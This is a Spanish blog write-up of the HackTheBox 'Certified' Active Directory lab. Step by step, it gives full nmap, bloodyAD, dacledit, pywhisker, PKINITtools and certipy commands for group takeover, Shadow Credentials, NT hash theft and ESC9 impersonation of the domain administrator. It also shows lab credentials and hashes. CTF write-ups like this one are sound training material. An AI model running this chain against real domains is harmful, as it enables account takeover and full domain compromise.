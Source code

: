 title: write up Certified HTB
excerpt:
date: 2025-3-18
classes: wide
header:
  teaser: https://404zzero.github.io/zzero.github.io//assets/images/certified/certified_avatar.png
  teaser_home_page: true
categories:
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
tags:  
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
  ---

"Certified" es una máquina de dificultad media en HackTheBox que involucra un entorno de Active Directory. Al comenzar, se nos proporcionan credenciales de un usuario inicial que tiene la capacidad de agregarse a un grupo específico. Aprovechando este privilegio, podemos unirnos a dicho grupo y ejecutar un ataque de Shadow Credentials contra otro usuario, lo que nos permite obtener su hash NT. Este segundo usuario también es vulnerable al mismo ataque, permitiéndonos comprometer la cuenta de un tercer usuario. Esta última cuenta tiene permisos para gestionar certificados, lo que abre la posibilidad de explotar la vulnerabilidad ESC9 en el servicio AD CS. A través de esta técnica, logramos escalar privilegios y suplantar la identidad del Administrador del dominio.

lo primero como siempre el escaneo de Nmap

```bash
nmap -p- --open --min-rate 5000 -sT -vvv -n -Pn 10.10.11.41 -oG allports
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219142548.png)

```bash
nmap -sVC -p53,88,135,139,389,445,593,636,3269,5985,9389,49666,49668,49673,49674,49683,49773 10.10.11.41 -oN ports
```

```bash
9683,49773 10.10.11.41 -oN ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 14:25 CET
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 70.59% done; ETC: 14:26 (0:00:12 remaining)
Stats: 0:01:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.66% done; ETC: 14:26 (0:00:00 remaining)
Nmap scan report for 10.10.11.41
Host is up (0.030s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-12-19 20:25:45Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  unknown
49683/tcp open  unknown
49773/tcp open  unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-19T20:26:11
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.63 seconds
```


comprovamos las credenciaales del usuario que nos da por defetcto HTB y aparte saco el dominio 
```bash
nxc smb 10.10.11.41 -u 'judith.mader' -p 'judith09'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219143502.png)

vamos a sacar el bloodhunt de esta mquina para poder usarlo

```bash
python3 bloodhound.py -d certified.htb -ns 10.10.11.41 -u judith.mader -p judith09 -c All --zip
```

nos genera un .zip
yo lo voy a abrir usando la version de docker
![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220115214.png)
descubrimos esta estructura
porlo que podemos intenar ganar acceso a Management y des hay a CA_operartor  y despues ser admin

lo primero es conseguir estar dentro del grupo y conseguir permisos de scritura 

como no tenemos sesion winrm vamos a tener que hacerlo todo desde la terminal 
primero vamos a usar bloodyAD para acer nuestro usuario dueño del grupo
https://github.com/CravateRouge/bloodyAD
(NOTA:  no se porque ahora HTB te da ya los permisos de propietario y escritura pero auna si yo voy a hacer el como se conseguirian)

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' set owner Management judith.mader
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220120508.png)

ahora vamos a conseguir los permisos de escritura con dacledit.py
https://github.com/fortra/impacket/blob/master/examples/dacledit.py

```bash
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121029.png)

perfecto por lo que como tenemos ya estos permisos ya podemos añadir a Management al grupo
para ello vamos a volver a usar bloodAD

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121534.png)

vale perfecto ahora como somos totalmente del grupo podemos intentar sacar el certificado al usuario management_svc
vamos a usar pywhisker
https://github.com/ShutdownRepo/pywhisker

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122103.png)

ahora vamos usar kerberos para intentar conseguir el ticket (TGT) gracias al certificado que emos conseguido

para esto vamos a usar gettgtpkinit gunto al archivo .pfx y la contraseña que nos da
https://github.com/dirkjanm/PKINITtools

```bash
 python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/zzero/certified/content/pywhisker/pywhisker/GMgSVanb.pfx -pfx-pass EwVgr6W570k5CtV5i4tB fuck2.ccache
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122945.png)
no suelta un erro y es por el tema de zona horaria para solucionarlo hay que hacer lo siguiente

```bash
ntpdate certified.htb
```

volvemos a ejecutar el comando y

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193054.png)

ya funciono por lo que tenemos ticket y .ccache

ahora ya que tenemos esto podemos intentar sacar el hash nt
para ello vamos a usar getnthash gunto a los datos anteriores
https://github.com/dirkjanm/PKINITtools

lo primero tenemos que declarar la siguiente variable
en mi caso seria asi
```bash
export KRB5CCNAME=/home/zzero/certified/content/PKINITtools/fuck2.ccache
```
tenemos que referncia al .ccache asi 

y ahora ejecutamos de la siguiente forma

```bash
python3 getnthash.py certified.htb/management_svc -key d7964090a53e45440fe4f7dbbfc0f3ad8555820724dc83dbeb1eb6d673f7ed04
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193550.png)

tenemos hahs por lo que podemos acceder a la mquina 

verificamos que tengamos winrm con el usuario management_svc con netexect

```bash
nxc winrm 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193752.png)

tenemos acceso pero no nos vale de nada porque es solo para la flag

## root

como tenemos control de management_svc podemos intentar ganar control de ca_operator
lo primero 
vamos a modificar sus credenciales con certipy-ad
https://github.com/ly4k/Certipy

```bash
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```
![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194456.png)

tenemos un segundo hash
ahora actualizamos su UPN
```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194635.png)

pedimos un certificado de administrador
```bash
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194906.png)

ahora restauramos el NPU original

```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195004.png)

y obtenemos el TGT de admin

```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195111.png)

y ya con netexect comprovamos si tenemos acceso

```bash
nxc winrm 10.10.11.41 -u 'administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

![](https://404zzero.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195224.png)

